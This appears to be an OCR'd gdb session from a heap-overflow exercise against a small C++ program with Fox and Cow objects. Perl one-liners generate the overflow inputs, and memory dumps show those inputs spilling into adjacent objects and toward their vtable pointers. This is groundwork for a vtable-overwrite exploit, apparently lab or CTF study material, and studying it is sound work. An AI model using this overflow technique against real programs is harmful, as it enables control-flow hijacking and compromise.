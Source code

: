 ```
(gdb) run -f $(perl -e 'print "AAAA"."BBBB"."C"x244 . "XXXX"') -c $(perl -e 'print "DDDD"."EEEE"."X"x244 . "FFFF"') -s 1

(gdb) break main
(gdb) p &a2
$1 = (Animal **) 0xbffff384
(gdb) p a2
$2 = (Animal *) 0x804a110
(gdb) x/x 0x804a110
0x804a110:	0x08048d10
(gdb) x/w 0x08048d10
0x8048d10 <_ZTV3Fox+8>:	0x080488a0
(gdb) x/w 0x080488a0
0x80488a0 <Fox::speak()>:	0x83e58955
(gdb) p &a1
$3 = (Animal **) 0xbffff388
(gdb) p a1
$4 = (Animal *) 0x804a008
(gdb) x/x 0x804a008
0x804a008:	0x08048d20
(gdb) x/w 0x08048d20
0x8048d20 <_ZTV3Cow+8>:	0x0804886c
(gdb) x/w 0x0804886c
0x804886c <Cow::speak()>:	0x83e58955

(gdb) x/68x 0x804a110
0x804a110:	0x08048d10	0x41414141	0x42424242	0x43434343
0x804a120:	0x43434343	0x43434343	0x43434343	0x43434343
0x804a130:	0x43434343	0x43434343	0x43434343	0x43434343
0x804a140:	0x43434343	0x43434343	0x43434343	0x43434343
0x804a150:	0x43434343	0x43434343	0x43434343	0x43434343
0x804a160:	0x43434343	0x43434343	0x43434343	0x43434343
0x804a170:	0x43434343	0x43434343	0x43434343	0x43434343
0x804a180:	0x43434343	0x43434343	0x43434343	0x43434343
0x804a190:	0x43434343	0x43434343	0x43434343	0x43434343
0x804a1a0:	0x43434343	0x43434343	0x43434343	0x43434343
0x804a1b0:	0x43434343	0x43434343	0x43434343	0x43434343
0x804a1c0:	0x43434343	0x43434343	0x43434343	0x43434343
0x804a1d0:	0x43434343	0x43434343	0x43434343	0x43434343
0x804a1e0:	0x43434343	0x43434343	0x43434343	0x43434343
0x804a1f0:	0x43434343	0x43434343	0x43434343	0x43434343
0x804a200:	0x43434343	0x43434343	0x43434343	0x43434343
0x804a210:	0x58585858	0x00020d00	0x00000000	0x00000000

(gdb) x/68x 0x804a008
0x804a008:	0x08048d20	0x44444444	0x45454545	0x58585858
0x804a018:	0x58585858	0x58585858	0x58585858	0x58585858
0x804a028:	0x58585858	0x58585858	0x58585858	0x58585858
0x804a038:	0x58585858	0x58585858	0x58585858	0x58585858
0x804a048:	0x58585858	0x58585858	0x58585858	0x58585858
0x804a058:	0x58585858	0x58585858	0x58585858	0x58585858
0x804a068:	0x58585858	0x58585858	0x58585858	0x58585858
0x804a078:	0x58585858	0x58585858	0x58585858	0x58585858
0x804a088:	0x58585858	0x58585858	0x58585858	0x58585858
0x804a098:	0x58585858	0x58585858	0x58585858	0x58585858
0x804a0a8:	0x58585858	0x58585858	0x58585858	0x58585858
0x804a0b8:	0x58585858	0x58585858	0x58585858	0x58585858
0x804a0c8:	0x58585858	0x58585858	0x58585858	0x58585858
0x804a0d8:	0x58585858	0x58585858	0x58585858	0x58585858
0x804a0e8:	0x58585858	0x58585858	0x58585858	0x58585858
0x804a0f8:	0x58585858	0x58585858	0x58585858	0x58585858
0x804a108:	0x46464646	0x00000100	0x08048d10	0x41414141
```